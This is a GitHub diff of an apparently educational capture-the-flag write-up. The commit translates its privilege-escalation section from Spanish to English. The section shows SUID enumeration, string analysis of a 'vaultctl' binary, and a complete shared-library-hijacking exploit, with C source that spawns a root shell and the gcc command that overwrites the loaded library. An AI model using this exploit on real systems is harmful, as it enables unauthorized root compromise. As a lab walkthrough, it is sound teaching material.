

Before and after one commit to buda-sys/Buda_Hack_Security, a Markdown page: budahacksecurity_static/uploads/Internal.md, the part around one of its changes. Shown at 83% size. GitHub-like rendering.

Commit message:
add
arreglar error de archivo

````diff
--- a/budahacksecurity_static/uploads/Internal.md
+++ b/budahacksecurity_static/uploads/Internal.md
@@ -280,16 +266,16 @@ Obtenemos acceso como `vault` y encontramos la primera flag.
 
 ---
 
-## Escalada de privilegios
+## Privilege Escalation
 
-### Enumeración de binarios SUID
+ **SUID Binary Enumeration**
 
-Enumeramos los binarios con el bit SUID activo en el sistema:
+We enumerate binaries with the SUID bit active on the system:
 
 ```bash
 find / -perm -u=s 2>/dev/null
 
-/usr/local/bin/vaultctl   ← llamativo, no es un binario estándar del sistema
+/usr/local/bin/vaultctl   ← noteworthy, not a standard system binary
 /usr/bin/chfn
 /usr/bin/gpasswd
 /usr/bin/mount
@@ -302,47 +288,47 @@ find / -perm -u=s 2>/dev/null
 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
 ```
 
-El binario `/usr/local/bin/vaultctl` nos llama la atención porque no es un binario estándar del sistema. Revisamos sus permisos:
+The binary `/usr/local/bin/vaultctl` catches our attention because it's not a standard system binary. We check its permissions:
 
 ```bash
 ls -la /usr/local/bin/vaultctl
 -rwsr-xr-x 1 root vault 16136 Feb 25 15:00 /usr/local/bin/vaultctl
 ```
 
-Los permisos indican lo siguiente:
+The permissions indicate the following:
 
-- `rws` — el dueño (`root`) puede leer, escribir y ejecutar. La `s` indica que el **bit SUID está activo**.
-- `r-x` — el grupo (`vault`) puede leer y ejecutar, pero **no modificar**.
-- `r-x` — el resto de usuarios también puede leer y ejecutar.
+- `rws` — the owner (`root`) can read, write, and execute. The `s` indicates the **SUID bit is active**.
+- `r-x` — the group (`vault`) can read and execute, but **not modify**.
+- `r-x` — other users can also read and execute.
 
-Esto significa que cualquier usuario que ejecute este binario lo hará con privilegios de `root`.
+This means any user who executes this binary will do so with **root** privileges.
 
-### Análisis con strings
+ **Analysis with strings**
 
-Usamos `strings` para extraer las cadenas de texto legibles del binario y entender qué hace internamente:
+We use `strings` to extract readable text strings from the binary and understand what it does internally:
 
 ```bash
 strings /usr/local/bin/vaultctl
 ```
 
-Los datos más relevantes que encontramos:
+The most relevant data found:
 
 ```
-/opt/vaultlibs/libbackup.so   ← ruta de la librería que carga
-run_backup                    ← función que ejecuta
-dlopen                        ← carga la librería dinámicamente
-dlsym                         ← busca la función run_backup
-vaultctl.c                    ← nombre del archivo fuente original
-GCC: (Ubuntu 13.3.0)          ← compilador utilizado
+/opt/vaultlibs/libbackup.so   ← path of the library it loads
+run_backup                    ← function it executes
+dlopen                        ← dynamically loads the library
+dlsym                         ← looks up the run_backup function
+vaultctl.c                    ← original source file name
+GCC: (Ubuntu 13.3.0)          ← compiler used
 ```
 
-El binario carga dinámicamente la librería `/opt/vaultlibs/libbackup.so` usando `dlopen()` y ejecuta la función `run_backup()` con `dlsym()`. Si podemos **reemplazar esa librería con una maliciosa**, el binario SUID la ejecutará como root.
+The binary dynamically loads the library `/opt/vaultlibs/libbackup.so` using `dlopen()` and executes the `run_backup()` function via `dlsym()`. If we can **replace that library with a malicious one**, the SUID binary will execute it as root.
 
 ### Shared Library Hijacking
 
-Vamos a escalar privilegios utilizando la técnica **Shared Library Hijacking**. Al analizar el binario con `strings` identificamos que carga dinámicamente una librería `.so` usando `dlopen()`. Esto significa que el binario busca y ejecuta código desde un archivo externo en tiempo de ejecución. Si podemos reemplazar esa librería con una maliciosa, el binario SUID la ejecutará con privilegios de `root`."
+We are going to escalate privileges using the **Shared Library Hijacking** technique. By analyzing the binary with `strings` we identified that it dynamically loads a `.so` library using `dlopen()`. This means the binary searches for and executes code from an external file at runtime. If we can replace that library with a malicious one, the SUID binary will execute it with **root** privileges.
 
-Verificamos si el usuario `vault` tiene permisos de escritura en ese directorio:
+We verify if the `vault` user has write permissions on that directory:
 
 ```bash
 ls -la /opt/vaultlibs/
@@ -350,26 +336,26 @@ drwxrwxr-x 2 root  vault  4096 Feb 25 15:06 .
 -rwxrwxr-x 1 vault vault 15656 Feb 25 15:06 libbackup.so
 ```
 
-El directorio tiene permisos `rwxrwxr-x`, lo que significa que el grupo `vault` puede escribir en él. Podemos reemplazar la librería legítima con una maliciosa.
+The directory has `rwxrwxr-x` permissions, meaning the `vault` group can write to it. We can replace the legitimate library with a malicious one.
 
-Creamos la librería maliciosa:
+We create the malicious library:
 
 ```bash
-cat > /tmp/malicioso.c << 'EOF'
+cat > /tmp/malicious.c << 'EOF'
 #include <unistd.h>
 #include <stdlib.h>
 
 void run_backup() {
-    setuid(0);           // Elevar privilegios a root
+    setuid(0);           // Elevate privileges to root
     setgid(0);
-    system("/bin/bash -p");  // Lanzar shell como root
+    system("/bin/bash -p");  // Launch shell as root
 }
 EOF
 ```
 
-Compilamos la librería maliciosa y la colocamos en la ruta que carga el binario SUID:
+We compile the malicious library and place it at the path loaded by the SUID binary:
 
 ```bash
-gcc -shared -fPIC -o /opt/vaultlibs/libbackup.so /tmp/malicioso.c
+gcc -shared -fPIC -o /opt/vaultlibs/libbackup.so /tmp/malicious.c
 ```
 
````
Also changed, not shown: other parts of budahacksecurity_static/uploads/Internal.md (+84 -98 lines).
